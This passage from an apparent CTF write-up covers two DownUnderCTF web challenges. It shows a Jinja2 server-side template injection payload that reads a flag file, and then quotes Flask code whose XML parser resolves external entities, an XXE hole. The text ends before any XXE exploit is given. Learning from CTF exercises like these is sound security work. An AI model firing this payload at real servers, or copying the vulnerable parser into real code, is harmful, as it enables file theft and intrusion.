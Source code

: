 Vulnerability Confirmed. Now to craft a payload.

I found a blog on how to exploit this vulnerability and crafted a payload. [Blog](https://payatu.com/blog/server-side-template-injectionssti/)

after following the steps to construct to payload through the blog i made the final payload

payload = `{{1337.__class__.__mro__[1].__subclasses__()[92].__subclasses__()[0].__subclasses__()[0]('./flag').read()}}`

![flag](/assets/posts/DownUnder/ssti2.png)

And there we have the flag!

> FLAG : `DUCTF{PaRrOt_EmU_ReNdErS_AnYtHiNg}`

### zoo feedback form

*Challenge: The zoo wants your feedback! Simply fill in the form, and send away, we'll handle it from there! <br>
Author: richighimi*

We are given a website link and also the source code of the website.

Vulnerable Code

```python

@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        xml_data = request.data
        print(xml_data.decode('utf-8'))
        try:
            parser = etree.XMLParser(resolve_entities=True)
            root = etree.fromstring(xml_data, parser=parser)
        except etree.XMLSyntaxError as e:
            return render_template_string('<div style="color:red;">Error parsing XML: {{ error }}</div>', error=str(e))
        feedback_element = root.find('feedback')
        if feedback_element is not None:
            feedback = feedback_element.text
            return render_template_string('<div style="color:green;">Feedback sent to the Emus: {{ feedback }}</div>', feedback=feedback)
        else:
            return render_template_string('<div style="color:red;">Invalid XML format: feedback element not found</div>')

```